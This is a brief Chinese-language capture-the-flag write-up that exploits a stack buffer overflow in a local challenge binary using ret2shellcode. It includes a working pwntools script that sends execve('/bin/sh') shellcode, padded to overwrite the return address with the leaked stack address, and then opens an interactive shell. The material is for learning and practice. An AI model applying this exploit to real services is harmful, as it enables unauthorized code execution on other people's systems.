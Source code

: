最开始暴露出来了数组`S`的地址，使用`Pwndbg`进行调试，可以看到栈区是存在`可读可写可执行`的权限的。因此可以考虑栈溢出中的`ret2shellcode`

![](./images/image-125.png)

大概思路就是，将`Shellcode`写入到数组S中，并且构造栈溢出使返回地址重新回到数组S端，并且继续执行`Shellcode`，至于执行完`Shellcode`后的返回地址，我们并不关心。可以对照下图看

![](./images/image-126.png)

```
from pwn import *

io = process('./leak')

io.recvuntil(b"Oops, I'm leaking! ")
leak_addr=int(io.recvuntil('\n'),16)
shellcode = b"\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

io.recvuntil(b"> ")

io.sendline(shellcode.ljust(72,b'a') +p64(leak_addr))

io.interactive()
```
